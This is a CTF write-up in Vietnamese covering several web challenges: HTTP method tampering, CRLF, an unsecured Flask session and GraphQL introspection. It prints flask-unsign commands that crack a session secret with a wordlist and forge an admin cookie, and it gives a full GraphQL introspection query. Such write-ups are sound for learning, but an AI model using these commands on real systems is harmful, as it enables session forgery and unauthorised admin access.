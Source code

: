 Bài này thì mình thấy khác là chơi chữ tampering có nghĩa là giả mạo, chỉ cần thay đổi http method trừ get và post là sẽ đọc được flag

![image-16](https://github.com/user-attachments/assets/2a4c0d6e-7d8d-433f-b830-a997cdd56ed6)

# CRLF

![image-17](https://github.com/user-attachments/assets/2f3b0cb9-e02b-43a9-921e-0cfe16cfdda6)

# Flask - Unsecure session

Bài này thì mình nhận được một jwt hơi lạ

![image-18](https://github.com/user-attachments/assets/6e15c0c0-0993-43f7-8ee4-0531c9f3bce8)

Bình thường thì một jwt token sẽ gồm

**Header.Payload.Signature**

    Header: Chứa thuật toán
    Payload: Chứa thông tin user
    Signature: Hash của 2 cái trên với key

Tuy nhiên với bài này thì cái payload lại nằm ở đầu, sau đó mình xem được [Video](https://www.youtube.com/watch?v=-ApYZewPLNQ) này, nhưng cũng chưa được giải thích rõ lắm.

**Command:**`flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Z7FU8g.3SnSsOXWN4smUAbxs-Ez9oYz4nM' --no-literal-eval`

![image-19](https://github.com/user-attachments/assets/244ed7aa-6eef-4871-965b-4cc536ba9285)

Sau đó thì thay payload của mình vào rồi tạo token lại thôi

**Command**`flask-unsign --sign --cookie '{"admin": "true", "username" : "admin"}' --secret 's3cr3t'`
![image-21](https://github.com/user-attachments/assets/361839d4-07e2-40d9-88d9-30fb3bb8a938)

![image-20](https://github.com/user-attachments/assets/af126433-9476-4655-bfe8-35fbce02530d)

# GraphQL instropection
Sau một hồi tìm hiểu về GraphQL thì mình thấy trang [graphql-voyager](https://graphql-kit.com/graphql-voyager/)

Trang này chủ yếu dùng dữ liệu trả về của GraphQL query để vẽ biểu đồ quan hệ

![image-22](https://github.com/user-attachments/assets/275e4f74-00dd-4a9c-86a7-555855617990)

Sau đó thì thấy cái này mình dùng thử thì được query như sau:
```json
{"query":"{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}"}
```
